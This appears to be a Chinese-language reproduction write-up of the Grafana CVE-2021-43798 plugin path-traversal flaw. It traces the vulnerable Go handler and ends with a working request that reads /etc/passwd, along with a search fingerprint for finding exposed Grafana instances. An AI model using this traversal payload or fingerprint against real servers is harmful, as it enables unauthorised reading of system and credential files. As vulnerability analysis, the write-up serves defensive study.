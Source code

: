 # Grafana plugins 任意文件读取漏洞 CVE-2021-43798

## 漏洞描述

Grafana存在任意文件读取漏洞，通过默认存在的插件，可构造特殊的请求包读取服务器任意文件

## 漏洞影响

```
Grafana 8.x
```

## 网络测绘

```
app="Grafana_Labs-公司产品"
```

## 漏洞复现

登录页面

![image-20220524145544871](images/202205241455924.png)

下载源码进行本地分析

```
https://codeload.github.com/grafana/grafana/zip/refs/tags/v8.3.0
```

根据漏洞找到 api.go 中的请求路径

![](images/202205241456202.png)

```
r.Get("/public/plugins/:pluginId/*", hs.getPluginAssets)
```

跟踪对应的 getPluginAssets 方法

![](images/202205241456015.png)

从请求路径中获取 `/public/plugins/` 后的参数赋值给 `pluginID,` 然后再被拼接至 `pluginFilePath` 进入文件读取片段

```
requestedFile := filepath.Clean(web.Params(c.Req)["*"])
pluginFilePath := filepath.Join(plugin.PluginDir, requestedFile)
```

![](images/202205241456301.png)

也就是说通过默认存在的插件来拼接文件路径构造请求进行文件读取

```
plugin, exists := hs.pluginStore.Plugin(c.Req.Context(), pluginID)
if !exists {
		c.JsonApiErr(404, "Plugin not found", nil)
		return
	}
```

插件路径 `public/app/plugins/panel`

![](images/202205241456061.png)

构造请求

```
/public/plugins/welcome/../../../../../../../../../etc/passwd
```

![](images/202205241456571.png)